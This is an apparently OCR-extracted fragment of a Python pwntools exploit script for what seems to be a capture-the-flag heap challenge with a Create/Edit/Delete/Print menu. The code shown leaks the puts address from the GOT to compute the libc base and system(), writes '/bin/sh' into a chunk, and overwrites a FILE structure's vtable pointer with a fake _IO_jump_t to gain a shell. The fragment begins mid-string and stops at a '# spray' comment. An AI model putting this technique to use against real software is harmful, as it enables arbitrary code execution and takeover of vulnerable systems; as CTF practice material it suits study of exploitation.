 ```python
===========
[1] Create
[2] Edit
[3] Delete
[4] Print
[5] Exit
'''

# Step 2: leak, overwrite File Pointer

PUTS_GOT = 0x00601f80

payload  = ''
payload += p64(0)
payload += p64(0)
payload += p64(int(bins[0], 16))
payload += p64(PUTS_GOT)   # reloc.puts
payload += p64(int(bins[1], 16))
payload += p64(0x006020c0) # fake _IO_jump_t
payload += p64(int(bins[2], 16))
payload += p64(0x006021c0) # faile
payload += p64(int(bins[3], 16))
payload += p64(0x00602050) # (void*) faile
payload += p64(int(bins[4], 16))
payload += p64(0x00602060) # &_IO_jump_t
edit(bins[0], payload)

libc_puts = _print(bins[0])
libc_puts = u64(libc_puts.ljust(8, '\x00'))
libc_base = libc_puts - 0x6f690
system  = libc_base + 0x45390

log.info('LIBC_LEAK ' + hex(libc_puts))
log.info('LIBC_BASE ' + hex(libc_base))
log.info('SYSTEM    ' + hex(system))

faile = _print(bins[2])
faile = u64(faile.ljust(8, '\x00'))

log.info('FAILE ' + hex(faile))

payload  = ''
payload += p64(int(bins[3], 16))
payload += p64(faile)
edit(bins[3], payload)

payload  = '/bin/sh'
edit(bins[3], payload)

payload  = ''
payload += p64(int(bins[4], 16))
payload += p64(faile + 0xd8)
edit(bins[4], payload)

_io_jump_t = _print(bins[4])
_io_jump_t = u64(_io_jump_t.ljust(8, '\x00'))

log.info('_IO_jump  ' + hex(_io_jump_t))

payload = p64(0x006020c0)
edit(bins[4], payload) # _IO_jump_t -> fake _IO_jump_t

# spray
```